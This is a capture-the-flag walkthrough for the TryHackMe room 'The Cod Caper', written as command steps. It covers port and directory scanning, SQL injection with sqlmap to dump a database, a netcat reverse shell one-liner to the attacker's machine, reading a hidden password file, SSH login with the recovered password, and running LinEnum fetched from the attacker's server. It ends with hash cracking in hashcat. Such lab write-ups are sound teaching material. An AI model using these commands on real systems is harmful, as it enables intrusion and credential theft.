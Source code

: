 # The Cod Caper

**Room Link:** [https://tryhackme.com/room/thecodcaper](https://tryhackme.com/room/thecodcaper)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### &#x20;SQL

**Kali**

```
sqlmap -u http://$VICTIM/administrator.php --forms --dump
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Method 1: nc Reverse shell:

**Kali**

```
nc -lvnp 1337
```

**Browser**&#x20;

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $KALI 1337 >/tmp/f
```

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Method 2: Hidden passwords:

**Browser**&#x20;

```
find / -user www-data 2>/dev/null
cat /var/hidden/pass
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh pingu@$VICTIM
Password: pinguapingu
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Enumeration

Download LinEnum Script

**Kali**

```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
hashcat -m 1800 -a 0 hash /usr/share/wordlists/rockyou.txt
hashcat -m 1800 -a 0 hash /usr/share/wordlists/rockyou.txt --show
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>












